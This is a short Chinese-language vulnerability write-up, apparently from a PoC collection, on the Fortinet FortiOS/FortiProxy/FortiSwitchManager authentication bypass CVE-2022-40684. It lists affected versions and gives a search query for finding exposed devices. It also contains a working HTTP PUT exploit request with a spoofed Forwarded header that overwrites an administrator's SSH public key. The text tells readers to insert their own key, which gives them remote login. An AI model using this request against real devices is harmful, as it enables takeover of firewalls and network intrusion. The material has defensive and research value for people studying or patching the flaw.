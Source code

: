 # 

# Fortinet FortiOS admin 远程命令执行漏洞 CVE-2022-40684

## 漏洞描述

Fortinet 周一指出，上周修补的 CVE-2022-40684 身份验证绕过安全漏洞，正在野外被广泛利用。作为管理界面上的一个身份验证绕过漏洞，远程威胁参与者可利用其登录 FortiGate 防火墙、FortiProxy Web 代理、以及 FortiSwitch Manager（FSWM）本地管理实例

## 漏洞影响

```
FortiOS <= 7.2.1、7.2.0、7.0.6、7.0.5、7.0.4、7.0.3、7.0.2、7.0.1、7.0.0
FortiProxy <= 7.2.0、7.0.6、7.0.5、7.0.4、7.0.3、7.0.2、7.0.1、7.0.0
FortiSwitchManager <= 7.2.0、7.0.0
```

## 网络测绘

```
title="FortiProxy"
```

## 漏洞复现

登录页面

![image-20221024102035598](./images/202210241020634.png)

验证POC, 利用时更换 admin用户名及 ssh-public-key1中的 ssh key 添加远程 SSH登录凭证

```
PUT /api/v2/cmdb/system/admin/admin HTTP/1.1
Host: 
Accept: */*
Accept-Encoding: gzip, deflate
Content-Length: 597
Content-Type: application/json
Forwarded: for="[127.0.0.1]:8888";by="[127.0.0.1]:8888"
User-Agent: Report Runner

{"ssh-public-key1": "123"}
```

![image-20221024102051085](./images/202210241020134.png)
